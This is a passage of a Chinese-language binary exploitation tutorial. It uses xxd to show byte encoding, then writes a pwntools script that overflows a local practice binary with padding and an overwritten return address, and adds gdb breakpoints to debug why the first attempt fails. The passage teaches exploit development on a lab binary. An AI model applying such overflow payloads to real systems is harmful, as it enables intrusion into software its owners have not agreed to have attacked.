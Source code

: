 {{<admonition type="info">}}

使用 `xxd` 可以以二进制或十六进制显示文件的内容：

{{< typeit code=bash >}}

$ echo '\x41\x41\x41\x41' | xxd
00000000: 4141 4141 0a        AAAA.

$ echo 'AAAA' | xxd
00000000: 4141 4141 0a        AAAA.

{{< /typeit >}}

{{</admonition>}}

## 0x04 编写漏洞利用脚本

现在我们知道了溢出 Padding 和想要覆盖的值，我们可以使用 [pwntools](https://github.com/Gallopsled/pwntools) 与二进制文件
交互，编写漏洞利用脚本。

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

# 创建一个新进程
p = process('./vuln')

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

# 输出「Exploited!」字符串则说明我们成功了
p.sendline(payload)

p.interactive()
```

如果你直接运行上面的脚本，就会发现一个小问题：它没有输出 `Exploited` 。为什么？
我们可以用调试器来检查一下。添加 hook `pwndbg` 的代码，以及 `pause()`，以便
我们可以在想发送 `payload` 的时候发送 `payload` 。

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

context.terminal = ['alacritty', '-e']

p = process('./vuln')

# 下面这条指令可以在启动 pwndbg 后自动下断点
# 为了调试程序的问题，我们在 `unsafe` 的 ret 指令返回时设断点
gdb.attach(p, 'b *0x080491aa')

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

pause()
p.sendline(payload)

p.interactive()
```
